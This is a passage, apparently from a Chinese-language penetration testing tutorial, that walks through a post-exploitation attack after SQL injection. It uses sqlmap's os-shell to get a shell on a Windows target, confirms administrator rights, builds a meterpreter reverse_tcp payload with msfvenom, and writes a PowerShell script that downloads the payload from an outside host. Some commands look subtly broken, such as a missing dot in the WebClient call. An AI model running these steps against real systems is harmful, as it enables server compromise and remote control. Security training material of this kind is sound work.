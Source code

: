 1.  我们首先通过使用`--is-dba`标志运行 sqlmap 来检查用户是否为 DBA：

![](img/19a19e66-693e-4efd-ab17-53108d5e0191.png)

1.  然后，我们使用`os-shell`，它提示我们一个 shell。然后我们运行命令来检查我们是否有权限：

```
 whoami
```

前面的命令的示例如下：

![](img/bcc389a3-6623-49f8-9750-e21e2cbf1cd5.png)

1.  幸运的是，我们有管理员权限。但我们没有 RDP 可以提供给外部用户。让我们尝试另一种方法，使用 PowerShell 获取 meterpreter 访问权限。

1.  我们首先创建一个`System.Net.WebClient`对象，并将其保存为 PowerShell 脚本在系统上：

```
 echo $WebClient = New-Object System.Net.WebClient > abc.ps1
```

1.  现在我们通过以下命令使用`msfvenom`创建我们的`meterpreter.exe`：

```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address>
    LPORT=<Your Port to Connect On> -f exe > shell.exe
```

1.  现在，我们需要下载我们的 meterpreter，所以我们在我们的`abc.ps1`脚本中添加以下命令：

```
 echo $WebClientDownloadFile(http://odmain.com/meterpreter.exe,
        "D:\video\b.exe") >> abc.ps1
```

以下截图是前面命令的示例：

![](img/1146fc5b-8f64-4155-b5f9-0d63506a28b6.png)
